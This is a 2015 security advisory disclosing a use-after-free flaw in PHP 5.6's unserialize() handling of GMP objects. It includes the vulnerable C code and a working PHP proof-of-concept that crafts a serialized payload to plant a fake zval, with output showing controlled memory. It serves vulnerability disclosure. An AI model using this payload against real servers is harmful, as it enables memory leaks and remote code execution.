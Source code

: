 #Use After Free Vulnerability in unserialize() with GMP
 
Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.8.17 - Release Date: 2015.9.4
 
> A use-after-free vulnerability was discovered in unserialize() with GMP object's deserialization that can be abused for leaking arbitrary memory blocks or execute arbitrary code remotely.

Affected Versions
------------
Affected is PHP 5.6 < 5.6.13

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------
```
static int gmp_unserialize(zval **object, zend_class_entry *ce, const unsigned char *buf, zend_uint buf_len, zend_unserialize_data *data TSRMLS_DC) /* {{{ */
{
	...

	INIT_ZVAL(zv);
	if (!php_var_unserialize(&zv_ptr, &p, max, &unserialize_data TSRMLS_CC)
		|| Z_TYPE_P(zv_ptr) != IS_STRING
		|| convert_to_gmp(gmpnum, zv_ptr, 10 TSRMLS_CC) == FAILURE
	) {
		zend_throw_exception(NULL, "Could not unserialize number", 0 TSRMLS_CC);
		goto exit;
	}
	zval_dtor(&zv);

	INIT_ZVAL(zv);
	if (!php_var_unserialize(&zv_ptr, &p, max, &unserialize_data TSRMLS_CC)
		|| Z_TYPE_P(zv_ptr) != IS_ARRAY
	) {
		zend_throw_exception(NULL, "Could not unserialize properties", 0 TSRMLS_CC);
		goto exit;
	}
```

The GMP object's deserialization can create ZVAL and free its zval_value from memory via zval_dtor(). However during deserialization will still allow to use R: or r: to set references to that already freed memory. It is possible to use-after-free attack and execute arbitrary code remotely.

Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.11 installation of PHP 5.6.12.
```
<?php

$inner = 'r:2;a:1:{i:0;a:1:{i:0;r:4;}}';
$exploit = 'a:2:{i:0;s:1:"1";i:1;C:3:"GMP":'.strlen($inner).':{'.$inner.'}}';

$data = unserialize($exploit);

$fakezval = ptr2str(1122334455);
$fakezval .= ptr2str(0);
$fakezval .= "\x00\x00\x00\x00";
$fakezval .= "\x01";
$fakezval .= "\x00";
$fakezval .= "\x00\x00";

for ($i = 0; $i < 5; $i++) {
    $v[$i] = $fakezval.$i;
}

var_dump($data);

function ptr2str($ptr)
{
	$out = '';
	for ($i = 0; $i < 8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}

?>
```

Test the PoC on the command line:
```
$ php uafpoc.php
array(2) {
  [0]=>
  int(1122334455)  <===  so we can control the memory and create fake ZVAL :)
  [1]=>
  object(GMP)#1 (2) {
    [0]=>
    array(1) {
      [0]=>
      int(4325299791)
    }
    ["num"]=>
    string(1) "1"
  }
}
```
